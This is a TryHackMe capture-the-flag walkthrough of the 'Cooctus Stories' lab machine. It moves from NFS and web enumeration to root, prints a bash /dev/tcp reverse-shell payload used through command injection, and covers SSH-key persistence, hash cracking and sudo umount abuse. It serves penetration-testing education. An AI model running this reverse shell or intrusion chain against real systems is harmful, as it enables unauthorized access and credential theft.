https://tryhackme.com/room/cooctusadventures

# Cooctus Stories Tryhackme Writeup
#### Walkthrough

**Note** - I was having connectivity issues throughout this machine so please diregard the IP address changes.
___

## The Story so far...
**Previously on Cooctus Tracker**  
_Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened. (From [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked) by [NinjaJc01](https://tryhackme.com/p/NinjaJc01))_

**Present times**  
Further investigation revealed that the hack was made possible by the help of an insider threat. Paradox helped the Cooctus Clan hack overpass in exchange for the secret shiba stash. Now, we have discovered a private server deep down under the boiling hot sands of the Saharan Desert. We suspect it is operated by the Clan and it's your objective to uncover their plans.

**Note:** A stable shell is recommended, so try and SSH into users when possible.

___
## Scanning

Initial nmap scan on all TCP ports shows 8 open ports, right off the bat  ports 2049 and 8080 are interesting to me.

```sh
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ sudo nmap -p- --min-rate=7000 10.10.30.23 
[sudo] password for viorage: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-14 14:28 EDT
Nmap scan report for 10.10.30.23
Host is up (0.23s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
111/tcp   open  rpcbind
2049/tcp  open  nfs
8080/tcp  open  http-proxy
37795/tcp open  unknown
39551/tcp open  unknown
39925/tcp open  unknown
40145/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 10.91 seconds
```

Running a default script scan to enumerate more information.

```sh
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ sudo nmap -sVC -p 22,111,2049,8080,37795,39551,39925,40145 -oN script-scan 10.10.30.23                                                                                                    130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-14 14:31 EDT
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 12.50% done; ETC: 14:31 (0:00:00 remaining)
Nmap scan report for 10.10.30.23
Host is up (0.22s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:44:62:91:90:08:99:5d:e8:55:4f:69:ca:02:1c:10 (RSA)
|   256 e5:a7:b0:14:52:e1:c9:4e:0d:b8:1a:db:c5:d6:7e:f0 (ECDSA)
|_  256 02:97:18:d6:cd:32:58:17:50:43:dd:d2:2f:ba:15:53 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      40145/tcp   mountd
|   100005  1,2,3      41204/udp6  mountd
|   100005  1,2,3      56611/udp   mountd
|   100005  1,2,3      58043/tcp6  mountd
|   100021  1,3,4      35143/tcp6  nlockmgr
|   100021  1,3,4      39551/tcp   nlockmgr
|   100021  1,3,4      51308/udp   nlockmgr
|   100021  1,3,4      60410/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8080/tcp  open  http     Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-title: CCHQ
37795/tcp open  mountd   1-3 (RPC #100005)
39551/tcp open  nlockmgr 1-4 (RPC #100021)
39925/tcp open  mountd   1-3 (RPC #100005)
40145/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

___
## NFS
Checking to see if there are any mountable shares on the target and we see the general share is mountable.

```sh
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ showmount -e 10.10.30.23                                                              
Export list for 10.10.30.23:
/var/nfs/general *
```

### Mounting the general share
Making a directory to mount the general share to and mounting.

```sh
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ sudo mount -t nfs 10.10.30.23:/var/nfs/general mnt                                                                                                                                                                     
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ cd mnt 
                                                                                                                          
┌──(viorage㉿kali)-[~/Tryhackme/Demo/mnt]
└─$ ls -la
total 12
drwxr-xr-x 2 nobody  nogroup 4096 Nov 21  2020 .
drwxr-xr-x 3 viorage viorage 4096 Apr 14 15:02 ..
-rw-r--r-- 1 root    root      31 Nov 21  2020 credentials.bak
```

Examing the credentials.bak file show what appears to be a username and password ```paradoxial.test Redacted```


Using the credentials to SSH into the target machine was unsuccessful.
___

## Website Port 8080

The web page had a banner that read  ```Cooctus Clan Secure Landing Page``` and the source code did not reveal any further information.


___

### Gobuster Directory Discovery

Utlizing Gobuster to find potential directories or files. I have added the ```--useragent``` switch to lower the chances of getting caught by defensive tools.

Gobuster quickly found ```/login``` and ```cat```. The login page might be where the credentials we found are used. The ```cat``` page redirects to the Login portal.

```sh
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ gobuster dir -u http://10.10.30.23:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --useragent "Mozilla/5.0 (platform; rv:geckoversion) Gecko/geckotrail Firefox/firefoxversion" -t 40                                                                                                        
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.30.23:8080/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              Mozilla/5.0 (platform; rv:geckoversion) Gecko/geckotrail Firefox/firefoxversion
[+] Timeout:                 10s
===============================================================
2022/04/14 15:18:40 Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 556]
/cat                  (Status: 302) [Size: 219] [--> http://10.10.30.23:8080/login]
```

___

### Proxying through Burp Suite

When enumerating a website it is helpful, at times, to proxy everything through Burp Suite so I will add the URL as a target. We are greeted with a ```Cookieless login page```. 



___

## Cooctus Attack Troubleshooter (C.A.T)
The credentials found earlier allowed for a successful login and we are greeting with the following message and a prompt

>  Welcome Cooctus Recruit!
Here, you can test your exploits in a safe environment before launching them against your target. Please bear in mind, some functionality is still under development in the current version.

To test the command box I set up tcpdump and attempted to ping myself ```ping -c 3 10.13.18.86``` and I received the ICMP packets.

```sh
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ sudo tcpdump -i tun0 icmp      
[sudo] password for viorage: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:37:20.282399 IP 10.10.30.23 > 10.13.18.86: ICMP echo request, id 1618, seq 1, length 64
15:37:20.282427 IP 10.13.18.86 > 10.10.30.23: ICMP echo reply, id 1618, seq 1, length 64
15:37:21.282924 IP 10.10.30.23 > 10.13.18.86: ICMP echo request, id 1618, seq 2, length 64
15:37:21.282940 IP 10.13.18.86 > 10.10.30.23: ICMP echo reply, id 1618, seq 2, length 64
15:37:22.283371 IP 10.10.30.23 > 10.13.18.86: ICMP echo request, id 1618, seq 3, length 64
15:37:22.283394 IP 10.13.18.86 > 10.10.30.23: ICMP echo reply, id 1618, seq 3, length 64
```

___

# Paradox is nomming cookies

After that I tried to get a reverse shell Find out what Varg is working onwith several payloads and eventually caught the shell after I set up an unbreakable pwncat listener.

Listener - 
```sh
pwncat -l 443 --self-inject /bin/bash:10.13.18.86:443
```

Payload - 

```bash
/bin/bash -c 'sh -i >& /dev/tcp/10.13.18.86/443 0>&1'
```

Shell as ```paradox```



Fixing up the terminal to have a full TTY - 


___

## User.txt
In paradox's home directory is the user.txt flag.


___

## Persistence
As always setting up persistence is a good idea. Here I will create an SSH keypair to login via SSH.



___

# Find out what Szymex is working on

After logging in as Paradox I receive an odd message from szymex.

SSH shell and interesting szymex message -



There was a note in szymex's home directory talking about a Dr. Pepper script.


## SniffingCat.py

Also in Szymex's home directory is a python script which is running as a cronjob and has a variable named ```enc_pw``` which equals ```pureelpbxr``` but it says it's encoded. I tried Magic from cyber chef to na avail. I then utilized a really bad script I wrote when I was learning bash that takes an encoded word and tries Rot 1 -25 decoding. I noticed one word was not gibberiesh ```redacted```.

```python
#!/usr/bin/python3
import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


x = random.randint(300,700)
y = random.randint(0,255)
z = random.randint(0,1000)

message = "Approximate location of an upcoming Dr.Pepper shipment found:"
coords = "Coordinates: X: {x}, Y: {y}, Z: {z}".format(x=x, y=y, z=z)

with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr":
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)
```

Decoder.sh Results - 



## Szymex Flag
Switching to the szymex user with that password works. It was also possible to SSH into the target machine as szymex which is the way to go.

```sh

paradox@cchq:~$ su - szymex
Password: 
szymex@cchq:~$ ls
mysupersecretpassword.cat  note_to_para  SniffingCat.py  user.txt
szymex@cchq:~$ cat user.txt
THM{---SNIP---}
szymex@cchq:~$ 
```

___

# Find out what Tux is working on
> Hint - Combine and crack

Inside Tux's home directory is another note ```note_to_every_cooctus``` and two directories ```tuxling_1``` and ```tuxling_2```.

Note_to_every_cooctus -

```console
Hello fellow Cooctus Clan members

I'm proposing my idea to dedicate a portion of the cooctus fund for the construction of a penguin army.

The 1st Tuxling Infantry will provide young and brave penguins with opportunities to
explore the world while making sure our control over every continent spreads accordingly.

Potential candidates will be chosen from a select few who successfully complete all 3 Tuxling Trials.
Work on the challenges is already underway thanks to the trio of my top-most explorers.

Required budget: 2,348,123 Doge coins and 47 pennies.

Hope this message finds all of you well and spiky.

- TuxTheXplorer
```

___

In the tuxling_1 directory there is ```nootcode.c``` and ```note```

Note - 

```console
Noot noot! You found me. 
I'm Mr. Skipper and this is my challenge for you.

General Tux has bestowed the first fragment of his secret key to me.
If you crack my NootCode you get a point on the Tuxling leaderboards and you'll find my key fragment.

Good luck and keep on nooting!

PS: You can compile the source code with gcc
```

nootcode.c -

```c
#include <stdio.h>                                                                         
                                             
#define noot int      
#define Noot main                  
#define nOot return                                                                        
#define noOt (                                                                             
#define nooT )                                                                             
#define NOOOT "f96"                                                                        
#define NooT ;                                                                             
#define Nooot nuut                                                                         
#define NOot {                                                                             
#define nooot key                                                                                                                                                                     
#define NoOt }                                                                             
#define NOOt void                                                                          
#define NOOT "NOOT!\n"                                                                     
#define nooOT "050a"                                                                       
#define noOT printf                                                                        
#define nOOT 0                                                                             
#define nOoOoT "What does the penguin say?\n" 
#define nout "d61"                           
                                             
noot Noot noOt nooT NOot                                                                   
    noOT noOt nOoOoT nooT NooT                                                             
    Nooot noOt nooT NooT                                                                   
                                                                                           
    nOot nOOT NooT                                                                         
NoOt                                                                                       
                                                                                           
NOOt nooot noOt nooT NOot                                                                  
    noOT noOt NOOOT nooOT nout nooT NooT                                                   
NoOt                                                                                       
                                                                                           
NOOt Nooot noOt nooT NOot                                                                  
    noOT noOt NOOT nooT NooT                                                               
NoOt             
```

I opened the file in Vim and removed the junk and took note of, what looked like hex strings ```f96050ad61```



___

## Tuxling_3

Another ```note``` was in the tuxling_3 directory -

```console
szymex@cchq:/home/tux/tuxling_3$ cat note
Hi! Kowalski here. 
I was practicing my act of disappearance so good job finding me.

Here take this,
The last fragment is: 637b56db1552

Combine them all and visit the station.
```

Kowalski gives the last fragment of ```637b56db1552```

___

## Tuxling_2

It seems like the tuxling_2 directory is missing. Using ```find``` shows us where it is ```/media/tuxling_2``` and there are 3 files ```fragment.asc```, ```note```, and ```private.key```.

```sh
szymex@cchq:/home/tux/tuxling_3$ find / -type d -name tuxling* 2>/dev/null
/home/tux/tuxling_3
/home/tux/tuxling_1
/media/tuxling_2
```

Note -

```console
Noot noot! You found me. 
I'm Rico and this is my challenge for you.

General Tux handed me a fragment of his secret key for safekeeping.
I've encrypted it with Penguin Grade Protection (PGP).

You can have the key fragment if you can decrypt it.

Good luck and keep on nooting!
```

___
##  PGP decrypt
The note tells us what to do, so lets decrypt the crypted file.  We are given a string "TuxPingu" and the second key fragment ```6eaf62818d```

```sh
szymex@cchq:/media/tuxling_2$ gpg --import private.key 
gpg: key B70EB31F8EF3187C: public key "TuxPingu" imported
gpg: key B70EB31F8EF3187C: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
szymex@cchq:/media/tuxling_2$ gpg --decrypt fragment.asc 
gpg: encrypted with 3072-bit RSA key, ID 97D48EB17511A6FA, created 2021-02-20
      "TuxPingu"
The second key fragment is: 6eaf62818d
```

___

## Tux's Flag

Combining the keys gives us a hash of  ```f96050ad616eaf62818d637b56db1552```  which looks to be an MD5 hash. 

Cracking with hashcat gives us the password of ```tredacted```.
![[cracked.png]]

Now we can ssh into the machine as tux and get the next flag.



___

# Find out what Varg is working on
In varg's directory we have 2 files and 1 directory ```CooctOS.py```, ```cooctOS_src```, and of course ```user.txt```. Tux can execute ```CooctOS.py``` as varg without a password.

```sh
tux@cchq:/home/varg$ sudo -l
Matching Defaults entries for tux on cchq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tux may run the following commands on cchq:
    (varg) NOPASSWD: /home/varg/CooctOS.py
```


There is a .git directory in the cooctOS_src directory, where we can enumerate information about the repo.

```git show``` gives us the following output which contains another password ```redacted```



___

## Varg's Flag


___

# Get full root privileges
> _Hint: To mount or not to mount. That is the question._

Checking varg's sudo privileges reveals ```/bin/mount``` can be run as root with no password. I checked https://gtfobins.github.io/# to see if there was a quick win but that was a dead end. Checking ```/etc/fstab``` is another option to see if there are any mounted partitions.

```sh
varg@cchq:~$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```


___

This seems rather odd but let's unmount the /opt/CooctFS share and see what happens. After unmounting the share there is a root directory which contains ```root.txt``` but it's a troll flag.

```sh
varg@cchq:~$ sudo umount /opt/CooctFS
varg@cchq:~$ ls -la /opt/CooctFS/
total 12
drwxr-xr-x 3 root root 4096 Feb 20  2021 .
drwxr-xr-x 3 root root 4096 Feb 20  2021 ..
drwxr-xr-x 5 root root 4096 Feb 20  2021 root
varg@cchq:~$ cd /opt/CooctFS/root
varg@cchq:/opt/CooctFS/root$ ls
root.txt
varg@cchq:/opt/CooctFS/root$ cat root.txt
hmmm...
No flag here. You aren't root yet.
varg@cchq:/opt/CooctFS/root$ 
```

___

## Root Shell
In the share is there is root private SSH key. From here we can simply copy the key to our local host change the permissions and SSH into the box as root.

id_rsa key -



SSH into the box as root and grabbing the flag to finish the challenge.




# Thank you for taking a look


